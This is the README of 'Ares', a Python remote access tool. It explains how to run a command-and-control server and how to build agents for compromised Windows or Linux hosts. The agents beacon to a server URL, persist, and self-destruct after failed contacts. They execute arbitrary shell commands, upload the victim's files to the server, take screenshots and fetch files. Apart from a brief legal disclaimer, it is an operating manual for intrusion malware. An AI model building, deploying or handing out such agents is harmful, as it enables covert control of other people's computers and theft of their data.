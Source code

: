 # Ares

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent can be compiled to native executables using **pyinstaller**.

## Server

### Setup

Install the Python requirements for the server:

```
cd server
pip install -r server_requirements.txt
```

Initialize the database:

```
./ares.py initdb
```

### Usage

Run with the builtin (debug) server:

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```
Or run using gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

The server should now be accessible on http://localhost:8080

## Agent

### Setup

Install the Python requirements for the agent:

```
cd agent
pip install -r agent_requirements.txt
```

In order to compile Windows agents on Linux, setup wine (optional):

```
./wine_setup.sh
```

### Run

Run the Python agent:

```
./agent.py
```

By default, the agent tries to reach a CnC on http://localhost:8080

To build a new agent to a standalone binary, use the following command:

```
./ares.py buildagent <program_name> <server_url> <platform>
``` 

Where:

- program_name is the resulting executable name
- server_url should be set to the CnC server's URL
- the platform is either Windows or Linux.

e.g.

```
./ares.py buildagent testagent http://localhost:8080 Linux
```

The **buildagent** command supports the following optional arguments:

```
-h <delay> time delay (in seconds) between each contact with the CnC (to pull new commands)
-m <max_failed_attempts> maximum number of failed connections (over that limit, the agent self-destructs)
-i <idel_time> time (in seconds) after which the agent goes to sleep if no new command is received (when the agent sleeps, it tries to pull commands less often)
-p add this flag to make the agent persistent by default
```

Built agents are stored in server/agents/.

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

python <command|file>
Runs a Python command or local file.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
